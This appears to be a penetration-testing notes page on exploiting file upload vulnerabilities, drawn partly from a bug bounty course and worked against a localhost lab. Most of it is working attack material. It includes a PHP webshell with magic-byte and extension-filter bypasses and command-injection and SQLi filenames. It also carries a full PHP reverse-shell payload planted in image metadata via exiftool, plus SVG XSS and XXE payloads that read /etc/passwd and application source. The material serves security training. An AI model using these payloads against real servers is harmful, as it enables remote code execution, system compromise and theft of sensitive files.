---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# File Uploads


File upload vulnerabilities occur when a web application improperly handles user-uploaded files, allowing potentially harmful files to be uploaded.



This can lead to server compromise, execution of malicious code, and unauthorized access to sensitive data.



Validate file types, use secure file storage paths, implement antivirus scanning, and enforce strict access controls on uploaded files.


## Absent Validation

Enumerate the technologies used on the server -> upload a same-language webshell. &#x20;



```bash
whatweb <URL>
```




```bash
ffuf -u <URL>/index.FUZZ -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -c -ac
```




## Client-Side Filters

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

We should start by using the application as intended in order to understand how it works. In doing so, the uploads directory is revealed (`/uploads`) as well as some extension filters (Figure 1).

<figure><figcaption><p>Figure 1: Using the application's functionality as intended.</p></figcaption></figure>

If we inspect the front-end code, we will notice that the file validation check happens on the client-side (Figure 2).

<figure><figcaption><p>Figure 2: Inspecting the application's source code.</p></figcaption></figure>

We can try bypassing this check and upload a [webshell](../../tools/shells/webshells.md) by intercepting the request before it reaches the server, but after passing the above `validateFileInput` check (Figure 3).

```php
<?php system($_GET['cmd']); ?>
```

<figure><figcaption><p>Figure 3: Bypassing the client-side filter and achieving RCE.</p></figcaption></figure>

## Server-side Filters

### Type Filters

1. [MIME type](https://developer.mozilla.org/en-US/docs/Glossary/MIME) -> indicates that nature and format of a file.
2. [`Content-Type`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type) header -> tells the receiving machine what type of data to expect and how to interpret it.&#x20;

If the server implicitly trusts the `Content-Type` header's value and no further validation is performed, then by changing its value to an expected content type before it reaches the server will result in bypassing this filter (Figure 4).

<figure><figcaption><p>Figure 4: Bypassing the server-side filter by modifying the <code>Content-Type</code> header.</p></figcaption></figure>

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Except checking the `Content-Type` header's value, or in addition to it, the server might actually check the file's content. In this case, **polyglot files**, i.e., files that different application interpret in different ways, can be created to trick the application. This can be achieve by modifying the file's [**magic bytes**](https://en.wikipedia.org/wiki/List\_of\_file\_signatures), aka _headers_ or _signatures_. For instance, the application below has both a client-side and a server-side filter (Figure 5).

<figure><figcaption><p>Figure 5: The server-side filter does not allow us to upload our webshell.</p></figcaption></figure>

We can try adding the [`JPG` magic bytes](https://en.wikipedia.org/wiki/List\_of\_file\_signatures) to our webshell using a tool such as `hexedit` or [`hexeditor`](https://www.kali.org/tools/ncurses-hexedit/) (Figure 6), which might trick the system into uploading it.

```bash
# original webshell
$ cat webshell.php
<?php system($_GET['cmd']); ?>
# system recognizes as a PHP script
$ file webshell.php
webshell.php: PHP script, ASCII text
$ file --mime-type webshell.php
../user-content/webshell.php: text/x-php
# add 4 random bytes at the start of it
$ cat webshell.php
AAAA<?php system($_GET['cmd']); ?>
# change the 4 bytes to FF D8 FF E0
$ hexeditor webshell.php
```

<figure><figcaption><p>Figure 6: Editing the file's magic bytes.</p></figcaption></figure>

Next, we can check if the file is now recognized as an image file instead of a PHP script.

```bash
# confirm the change
$ cat webshell.php
����<?php system($_GET['cmd']); ?>
# system recongizes as a JPEG file
$ file webshell.php
webshell.php: JPEG image data
$ file --mime-type webshell.php
webshell.php: image/jpeg
```

To upload the shell we must first bypass the client-side extension filter by adding an image extension to the file and then remove that extension via our proxy, so the server is able to execute it (Figure 7).

<figure><figcaption><p>Figure 7: Bypassing both the client-side and server-side filters. </p></figcaption></figure>

Finally, we can interact with the webshell either via the browser or using `curl`.

```bash
$ curl http://localhost/labs/uploads/webshell.php?cmd=id
����uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Blacklists/Whitelists

Sometimes a server-side filter can be based on a whitelist or a blacklist (Figure 8).

<figure><figcaption><p>Figure 8: A blacklist-based server side filter blocking <code>.php</code> file extensions.</p></figcaption></figure>

In this case, we can fuzz the file extension and see if any [valid PHP extension](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology) has been left out of it (Figure 9).

<figure><figcaption><p>Figure 9: Fuzzing for valid <code>php</code> extensions.</p></figcaption></figure>

By trying both `php5` and `phtml` , we see that only the latter works as the server is not configured to interpret the former as a valid PHP script.

```bash
$ curl http://localhost/labs/uploads/shell.php5?cmd=id
����<?php system($_GET['cmd']); ?>

$ curl http://localhost/labs/uploads/shell.phtml?cmd=id
����uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Some filters might **only check if the extension exists** within the file name, which can be bypassed by renaming the file to `webshell.jpg.phar` (**double extension method**).  Others, might require for the file name to end with an allowed extension so we will have to switch the extensions over, i.e.,  `webshell.phar.jpg` (Figure 10) (**reverse double extension method**).

<figure><figcaption><p>Figure 10: Bypassing the extension filter using double extensions.</p></figcaption></figure>

In case we can use the **reverse double extension** method, the file will be uploaded but it might not be able to execute. Instead it can be served as a direct download (Figure 11.1) or as a page (Figure 11.2).

<figure><figcaption><p>Figure 11: The webshell script treated as a direct download and a page.</p></figcaption></figure>

This can be potentially bypassed by a **null byte injection**. The null byte (`\x00`) marks the end of a string in various programming languages. By **injecting a URL-encoded null byte** after the script's extension (`.php`) (Figure 13), the server might interpret it as the end of the string and ignore what comes after it, in this case, the `.png` extension. However, when the server later processes the file, it could read it as a PHP script and execute it.

<figure><figcaption><p>Figure 13: Injecting a null byte in the file's name.</p></figcaption></figure>

To access the file only the part before the null byte might be called, i.e., `revshell.php`.

## Attacks

### Filename Injection

When the uploaded file name is refected on the page. If the OS moves the file with a command such as `mv <file> /tmp`, then we achieve RCE.

```
# command execution
file$(whoami).jpg
file`whoami`.jpg
file.jpg||whoami
```

Similarly, an XSS or SQLi attack can be performed.

```
# xss
<script>alert(window.origin);</script>
# sql
file';select+sleep(5);--.jpg
```

### Uploads Directory

* Check source code after uploading a file.
* Fuzz for an `/uploads` directory, and then for the file itself.
* Forcing error messages that might disclose the uploads directory:
  * Uploading a file that already exists or sending 2 identical requests simultaneously.
  * Uploading a file with a very (very) long name.

### Metadata Injection

If the web application displays the image's metadata, a payload can be injected in one of the metadata's fields. When the image's metadata is displayed, the payload will be triggered.&#x20;

```bash
# injecting an XSS payload into the Comment field
exiftool -Comment=' ">' image.jpg
```


```bash
# injecting a reverse shell payload into the Document Name field
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```


If the metadata is not directly displayed, chaning the MIME-type to `text/html`, might cause the file to be treated as an HTML document and directly trigger the payload.

### SVGs

We can include XSS payloads within the XML data of SVG images. Once the image is displayed, the payload will be triggered.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```


We can also perform [XXE](injections/xxei.md) attacks using SVG images. This can be used for reading the web application's source files.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```


